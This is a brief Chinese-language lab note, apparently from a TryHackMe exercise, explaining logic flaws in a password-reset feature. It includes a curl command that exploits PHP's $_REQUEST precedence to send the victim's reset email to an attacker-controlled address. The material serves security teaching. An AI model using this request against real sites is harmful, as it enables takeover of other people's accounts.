

# 逻辑缺陷

> 逻辑缺陷是指利用应用程序在处理过程中对步骤的要求不严谨而造成的漏洞，且该漏洞的存在范围可以存在于任何位置

<figure><figcaption></figcaption></figure>

## 配合

### 身份验证&逻辑缺陷

> 现在在我们的网站存在一个重置密码功能
>
> * 先输入电子邮箱，查看是否有该邮箱地址
> * 输入用户名，查看用户名和电子邮箱地址是否对应


```bash
# 这里利用的点是在 PHP 中华变量是一个数组，其中$_REQUEST包含从查询字符串和 POST 数据接收的数据。如果查询字符串和 POST 数据使用相同的键名，这个变量的应用逻辑更倾向于 POST 数据字段而不是查询字符串，所以如果我们在 POST 表单中添加另一个参数，我们可以控制在哪里重置密码电子邮件已送达
user@tryhackme$ curl 'http://MACHINE_IP/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

